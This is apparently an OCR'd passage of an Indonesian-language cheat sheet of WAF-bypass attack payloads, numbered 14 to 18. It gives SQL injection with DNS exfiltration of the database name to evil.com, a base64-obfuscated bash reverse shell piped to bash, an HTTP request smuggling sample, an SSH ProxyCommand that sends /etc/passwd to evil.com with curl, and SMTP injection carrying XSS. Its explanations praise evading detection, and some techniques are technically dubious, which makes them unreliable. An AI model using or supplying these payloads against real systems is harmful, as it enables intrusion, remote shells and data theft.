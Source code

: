 ### **🛡️ 14. DNS-Based Data Exfiltration**  
```sql
' UNION SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.evil.com\\data'))--
```
**📌 Teknik:**  
✅ Memanfaatkan DNS query sebagai metode ekstraksi data tanpa HTTP.  
✅ Bisa melewati firewall yang hanya memblokir HTTP/HTTPS.  

---

### **🛡️ 15. Encrypted Command Injection via Base64**  
```bash
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTE3LzQ0NDQgMD4mMQ==' | base64 -d | bash
```
**📌 Teknik:**  
✅ Payload dienkripsi dengan Base64 agar tidak mudah dideteksi.  
✅ Reverse shell akan dieksekusi setelah decoding.  

---

### **🛡️ 16. HTTP Smuggling Attack for WAF Bypass**  
```http
POST /vulnerable-endpoint HTTP/1.1  
Host: target.com  
Transfer-Encoding: chunked  

0  
GET /admin HTTP/1.1  
```
**📌 Teknik:**  
✅ Menyisipkan **HTTP request kedua dalam body request pertama**.  
✅ Bisa melewati WAF yang tidak memahami HTTP Smuggling.  

---

### **🛡️ 17. SSH Injection via Reverse Proxy Exploit**  
```bash
ssh -o ProxyCommand='curl -x socks5://127.0.0.1:9050 -H "User-Agent: $(cat /etc/passwd)" http://evil.com' user@target
```
**📌 Teknik:**  
✅ Memanfaatkan **ProxyCommand** untuk mengirim data sensitif melalui HTTP request.  
✅ Bisa digunakan untuk exfiltrasi password Linux dari `/etc/passwd`.  

---

### **🛡️ 18. Cross-Protocol Exploitation (SMTP Injection)**  
```http
MAIL FROM:<attacker@example.com>\r\n  
RCPT TO:<victim@example.com>\r\n  
DATA\r\n  
Subject: Exploiting WAF via SMTP\r\n  
<script>alert('XSS via email!')</script>\r\n  
.\r\n  
QUIT\r\n
```
**📌 Teknik:**  
✅ Memanfaatkan SMTP untuk menyisipkan payload XSS atau phishing dalam email.  
✅ Bisa melewati WAF yang hanya memfilter HTTP.  

---